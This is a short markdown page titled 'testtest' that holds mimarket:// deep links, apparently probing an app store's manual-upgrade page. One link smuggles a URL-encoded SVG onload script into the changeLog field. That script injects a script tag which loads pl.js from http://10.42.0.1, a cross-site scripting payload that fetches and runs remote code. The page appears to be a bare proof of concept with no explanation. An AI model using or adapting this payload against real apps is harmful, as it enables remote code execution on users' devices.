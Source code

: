 # testtest


<mimarket://browse?title=aaa&url=target>

<mimarket://browse?url=file://manual-upgrade.html?manualUpgradeInfo={"changeLog":"<svg onload%3D\"javascript:j%3Ddocument.createElement('script');j.src%3D'http://10.42.0.1/pl.js';document.getElementsByTagName('head')[0].appendChild(j);\" xmlns%3D\"http://www.w3.org/2000/svg\"></svg>"}&title=butts>

<mimarket://browse?url=file://manual-upgrade.html?manualUpgradeInfo=&title=butts>

<https://lynmp.com>
